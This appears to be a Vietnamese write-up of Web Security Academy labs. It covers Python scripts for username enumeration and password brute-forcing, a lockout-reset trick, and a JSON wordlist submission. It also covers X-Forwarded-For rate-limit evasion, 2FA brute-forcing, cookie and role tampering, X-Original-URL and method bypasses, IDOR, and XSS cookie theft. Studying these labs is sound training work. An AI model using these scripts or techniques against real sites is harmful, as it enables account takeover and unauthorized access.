# Web01

# Authentication vulnerabilities

## Password-based

### Username enumeration via different responses

Khi đăng nhập bằng website với username không tồn tại, server sẽ trả về response có `Invalid username`. Thực hiện brute-force từng username với password bất kỳ, ta nhận được 1 response có `Incorrect password` thay vì `Invalid username` → username đó tồn tại. Lại thực hiện brute-force password với username vừa tìm được, ta nhận được 1 response đăng nhập thành công.

```python
import requests

url = "https://aca41ffe1e463587c02ed38a000b0019.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

username = None
password = None

for uname in open('username.txt').readlines():
    uname = uname[:-1]
    data = {
        'username': uname,
        'password': 'a'
    }
    print(uname)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Invalid username' not in res:
        username = uname
        break

if username is None:
    print("No username")
    exit(1)

for pwd in open('password.txt').readlines():
    pwd = pwd[:-1]
    data = {
        'username': username,
        'password': pwd
    }
    print(data)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Incorrect password' not in res:
        password = pwd
        break

if password is None:
    print("No password")
    exit(1)

print(f"{username}:{password}")
with open("credential.txt", 'w') as file:
    file.write(f"{username}:{password}")
```

### Username enumeration via subtly different responses

Tương tự bài đầu tiên. Tuy nhiên trong bài này, server sẽ trả về `Invalid username or password.` nếu username sai và `Invalid username or password` nếu username đúng còn password sai.

```python
import requests

url = "https://ace21f881e9bf6fdc19f484400170075.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

username = None
password = None

for uname in open('username.txt').readlines():
    uname = uname[:-1]
    data = {
        'username': uname,
        'password': 'a'
    }
    print(uname)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Invalid username or password.' not in res:
        username = uname
        break

if username is None:
    print("No username")
    exit(1)

for pwd in open('password.txt').readlines():
    pwd = pwd[:-1]
    data = {
        'username': username,
        'password': pwd
    }
    print(data)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Invalid username or password' not in res:
        password = pwd
        break

if password is None:
    print("No password")
    exit(1)

print(f"{username}:{password}")
with open("credential.txt", 'w') as file:
    file.write(f"{username}:{password}")
```

### Username enumeration via response timing

Thực hiện brute-force username với password dài bất kỳ (mục đích ta cần password dài là để nếu username đúng, server sẽ thực hiện hash password đó → password càng dài hash càng lâu → response time cho username đúng sẽ lâu hơn)

Ngoài ra, ở bài này ta còn bị giới hạn số lần nhập sai username và password. Do với bất kỳ username nào ta cũng bị giới hạn số lần thử → khả năng cao server giới hạn số lần đăng nhập sai theo IP. Thử dùng `X-Forwarded-For` để đánh lừa server là ta gửi đăng nhập ở IP khác → thành công. 

Ta sẽ brute-force username cùng với header `X-Forwarded-For` được đánh số khác nhau mỗi request.



Thực hiện brute-force 4 lần với password 100 ký tự, ta đều thu được username `alabama` có response time lâu nhất



Ta sẽ brute-force password với username là `alabama` cùng với header `X-Forwarded-For` được đánh số khác nhau mỗi request.



Nhận thấy một response redirect khi password là `alabama` 



Như vậy username và password của lab này là `alabama:superman`



### **Broken brute-force protection, IP block**

Thử chức năng đăng nhập của website, ta thấy số lần đăng nhập sai nhiều nhất là 3 lần.



Thử dùng header `X-Forwarded-For` để giả ip khác nhưng ta vẫn bị giới hạn → lab này ta không dùng được header đó.

Như vậy, khi login thất bại 2 lần liên tiếp, ta cần login vào tài khoản `wiener` để server reset số lần đăng nhập thất bại

```python
import requests

url = "https://acc71fb31f2cc7c4c01b1901008a002c.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

valid_cred = {
    'username': 'wiener',
    'password': 'peter'
}

username = 'carlos'
password = None

count = 0
for pwd in open('password.txt').read().splitlines():
    if count < 2:
        count += 1
    else:
        res = requests.post(url=url, data=valid_cred)
        # print(res.status_code)
        # with open('res_valid.html', 'wb') as file:
        #     file.write(res.content)
        count = 1

    data = {
        'username': username,
        'password': pwd
    }
    print(data)
    res = requests.post(url=url, data=data).content
    with open('res.html', 'wb') as file:
        file.write(res)

    if b'Incorrect password' not in res:
        password = pwd
        break

if password is None:
    print("No password")
    exit(1)

print(f"{username}:{password}")
with open("credential.txt", 'w') as file:
    file.write(f"{username}:{password}")
```

### **Username enumeration via account lock**

Thực hiện brute-forece username với password bất kỳ một vài lần, ta thấy username `auction` bị khóa → lab này sẽ giới hạn số lần đăng nhập sai theo username.



Thực hiện bruteforce passwor với username là `auction`, ta nhận được 1 response không có thông báo lỗi.



Đợi 1 phút để reset giới hạn đăng nhập, đăng nhập lại bằng username và password là `auction:654321`



### Broken brute-force protection, multiple credentials per request

Login vào website, nhận thấy trình duyệt gửi credential dạng json đến server


Thay vì gửi 1 password 1 lần, ta có thể gửi cả wordlist password trong 1 request với json

```python
import requests

url = "https://ac5d1fd61fbd683dc0ab0164006600cc.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

data = {
    'username': 'carlos',
    'password': open('password.txt').read().splitlines()
}

s = requests.session()
res = s.post(url=url, json=data, allow_redirects=True)
with open('res.html', 'wb') as file:
    file.write(res.content)
print(s.cookies.get_dict())
```

## Multi-factor

### **2FA simple bypass**

Login vào website bằng username của mình (`wiener`), thấy được path trang chủ là `/my-account`


Login vào website bằng username `carlos`, khi đến bước nhập mã xác thực, ta chuyển hướng trang đến `/my-account` là truy cập được profile của `carlos`

### **2FA broken logic**

Khi đăng nhập vào website, server sẽ gửi lại cookie `verify` là username cần xác thực bằng code.



Do ta không có password của `carlos` để đăng nhập, ta có thể gửi lại request mã xã nhận đến `/login2` để server tạo một mã xác nhận cho user này.

Sau đó dùng `Intruder` để brute-force mã xác thực



Duy nhất mã xác thực `1630` redirect ta về trang chủ.



Mở browser, đăng nhập bằng tài khoản `wiener`, đến bước xác thực ta đổi cookie `verify=carlos` và nhập mã xác thực `1630` là login được bằng tài khoản `carlos`

### 2FA bypass using a brute-force attack

Login bằng tài khoản trong mô tả của lab, có thể thấy ta chỉ được phép nhập 2FA code sai nhiều nhất 2 lần trước khi bị chuyển lại về trang login


Ta sẽ cần login lại sau mỗi lần nhập sai code. Ta có thể sử dụng tính năng macro trong Burp Suit để thực hiện việc đó

Giải thích macro:

1. Dòng đầu tiên là gửi yêu cầu GET đến `/login` với mục đích lấy `csrf token`
2. Dòng thứ hai gửi yêu cầu POST để login
3. Dòng thứ ba gửi yêu cầu GET đến `/login2` để lấy `csrf token`


Test lại macro


Vào `Intruder` để brute-force `mfa-code`


Cài đặt `Max concurrent request` là `1` (để đảm bảo việc login và brute-force `mfa-code` xen kẽ nhau.


Chạy `Intruder`, đợi một lúc ta được một response redirect về `/my-account`


## **Other mechanisms**

### **Password reset broken logic**

Xem request đổi password đến server, ta thấy trong request body có `username=wiener`. Đổi thành `username=carlos`.





Đăng nhập lại bằng username `carlos` với mật khẩu là mật khẩu ta vừa đổi.

### Brute-forcing a stay-logged-in cookie

Đăng nhập vào website, ta để ý có cookie `stay-logged-in` 


 Sử dụng decode base 64 ta được chuỗi `username:MD5 hash`. Dùng trang [MD5 Decrypt](http://md5decrypt.net/en/) ta ra được `peter` → cookie này bao gồm password được hash MD5


Sử dụng extension Turbor Intruder để brute-force cookie này (theo dạng `carlos:MD5 hashed password`, rồi encode Base 64)


Xem trong responses có 1 response có `Length` dài hơn các response khác. Kiểm tra thì thấy ta đã đăng nhập thành công. Ta có thể dùng [MD5 Decrypt](http://md5decrypt.net/en/) để kiểm tra password đó là gì.

### Offline password cracking

Lab này có liên quan đến lỗi XSS. Nếu ta viết bình luận như hình  vào một post bất kỳ, khi bất kì user nào mở trang đó, họ sẽ bị redirect sang trang `exploit` của academy với path là toàn bộ cookie của website lab


Do đó, khi user `carlos` sau khi xem post này đã bị tự động redirect đi.


Xem log trên trang `exploit` , ta thu được cookie của `carlos`


Decode Base64 và [MD5 Decrypt](http://md5decrypt.net/en/) ta thu được password.


### **Password reset poisoning via middleware**


### **Password brute-force via password change**

Đăng nhập và thử chức năng đổi password của website


Ta sẽ tự động bị logout sau khi đổi password.

Nhận thấy server sẽ trả về `Current password is incorrect` nếu password hiện tại sai


`New passwords do not match` nếu password hiện tại đúng nhưng confirm password sai


Do đó ta có thể cố tình nhập sai `new-password-2` (là mục confirm password) và brute-force `current-password` để kiểm tra xem password hiện tại có đúng không. Gửi request vào intruder, đổi username thành `carlos`, để `new-password-1` và `new-password-2` khác nhau.


Lấy được password của user `carlos` là `trustno1`

# Access control

### ****Unprotected admin functionality****

Tìm kiếm trang `/robots.txt` , ta có được path đến trang của admin


### ****Unprotected admin functionality with unpredictable URL****

Inspect source của website, ta thấy path đến trangcủa admin trong code Javascript


### **User role controlled by request parameter**

Lab này sử dụng cookie để kiểm tra xem người dùng có phải admin không. Ta thấy sau khi login, server trả về response có cookie `Admin=false`


Đổi cookie thành `Admin=true` trên trình duyệt và reload, ta đã trở thành admin và có thể truy cập trang của admin.


### **User role can be modified in user profile**

Khi thay đổi email, ta thấy server trả về json data có `"roleid"=1` . Theo như mô tả của lab, `"oleid"=2` là của admin.


Do đó ta gửi lại request đổi email, kèm theo dòng `"roleid"=2` để thử đổi luôn cả `roleid`. Kết quả là ta đổi được `roleid` thật.


Giờ user `weiner` đã thành admin.


### **Method-based access control can be circumvented**

Đăng nhập vào account admin được cho trong phần mô tả và nâng user wiener lên admin, ta có thể thấy request sẽ sử dụng phương thức POST đến `/admin-roles` và body là `username=wiener&action=upgrade`. Nếu thành công, server sẽ redirect về `/admin`


Gửi request vào repeater trong Burp Suit và thay cookie session thành cookie session của normal user (wiener).


Gửi request lên server, ta nhận code 401.

Ngoài phương thức POST, ta cũng có thể dùng `PUT` để làm điều tương tự. Thử sử dụng phương thức `PUT`, ta nhận được response giống như khi gửi request bằng tài khoản administrator.

Vào lại website để kiểm tra, ta đã được nâng cấp thành admin (lab đã được solved thành công)


### **URL-based access control can be circumvented**

Gửi request đếnn  `/admin`, ta bị từ chối truy cập


Theo như mô tả của lab, back-end của server có hỗ trợ header  `X-Original-URL`. Do đó ta thử thêm

`X-Original-URL: /admin` và sửa path thành bất kỳ (khác `/admin`)


Ta đã truy cập được trang admin


Bật intercept trong Burp Suit, click Delete user carlos và sử dụng `X-Original-URL: /admin/delete`, ta đã xóa thành công user carlos


### ****User ID controlled by request parameter****

Truy cập trang chủ, ta để ý trên url parameter có `?id=wiener`, đổi thử thành `?id=carlos`


Như vậy ta đã truy cập được trang chủ của user `carlos`


### **User ID controlled by request parameter, with unpredictable user IDs**

Đăng nhập vào website, ta thấy user id lần này có vẻ là chuỗi bất kỳ


Tìm trong Home có được post được đăng bởi user `carlos`. Bấm vào đó


Ta có được user id của `carlos` trên URL


Sử dụng user id đó trên My Account, ta truy cập được profile `carlos` và lấy được API key


### **User ID controlled by request parameter with data leakage in redirect**

Đăng nhập website bằng username và password của `wiener`, server sẽ trả về trang chủ của `wiener`


Khi đổi `?id=wiener` thành `?id=carlos` trên browser, ta sẽ bị redirect về trang login. Tuy nhiên nếu ta intercept response của server, ta sẽ thấy server gửi header redirect nhưng vẫn có body.


Kéo xuống, ta thấy user hiện tại là `carlos` và có được luôn API key.


### User ID controlled by request parameter with password disclosure

Đăng nhập vào website, đổi `?id=wiener` thành `?id=administrator`


Truy cập trang của admin thành công. Inspect để xem password của admin


Dùng password đó để đăng nhập tài khoản admin, xóa user `carlos` để hoàn thành lab.

### Insecure direct object references

Khi vào trang Live chat và ấn View transcript, server sẽ gửi file transcript có tên `2.txt`. Như vậy ta có thể đoán được còn có file transcript tên là `1.txt` trên server.


Vào Burp Suit và xem `HTTP history` , gửi request tải file transcript vào `Repeater`


Trong `Repeater`, đổi path `/download-transcript/2.txt` thành `/download-transcript/1.txt`, ta nhận được file transcript chat của user trước đó. Trong file có password của user.


### **Multi-step process with no access control on one step**

